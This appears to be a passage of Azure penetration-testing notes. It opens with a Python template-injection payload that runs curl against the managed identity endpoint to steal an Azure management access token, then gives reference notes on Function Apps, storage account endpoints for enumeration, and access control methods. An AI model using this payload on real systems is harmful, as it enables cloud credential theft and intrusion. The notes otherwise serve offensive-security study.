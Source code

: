 ```python 
cycler.__init__.__globals__.os.popen('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read() 
```


> Anyway lets jump this

### Function App Abuse

Function App (also called Azure Functions) is Azure`s **serverless** solution to run code.

- Languages like C#, Java, PowerShell, Python and more are supported.
- A Function App is supposed to be used to react to an event like:
  - HTTP Trigger
  - Processing a file upload
  - Run code on scheduled time and more
- App service provides the hosting infrastructure for function apps.
- Function apps support Managed Identities


## Azure Blob Storage - Storage Account

A storage account has globally unique endpoints.

> Useful in enumeration too by guessing the storage account names!


| Storage Service           | Endpoint                                             |
|---------------------------|-------------------------------------------------------|
| Blob storage              | https://**storage-account**.blob.core.windows.net       |
| Azure Data Lake Storage Gen2 | https://**storage-account**.dfs.core.windows.net        |
| Azure Files               | https://**storage-account**.file.core.windows.net       |
| Queue storage             | https://**storage-account**.queue.core.windows.net      |
| Table storage             | https://**storage-account**.table.core.windows.net      |


### Authorization

There are multiple ways to control access to a storage account

| Access Control Method    | Description                                                                       |
|--------------------------|-----------------------------------------------------------------------------------|
| Azure AD credentials     | Authorize user, group, or other identities based on Azure AD authentication. RBAC roles supported! |
| Share Key                | Use access keys of the storage account. This provides full access to the storage account. |
| Shared Access Signature (SAS) | Time-limited and specific permissions.                                           |


### Anonymous Access

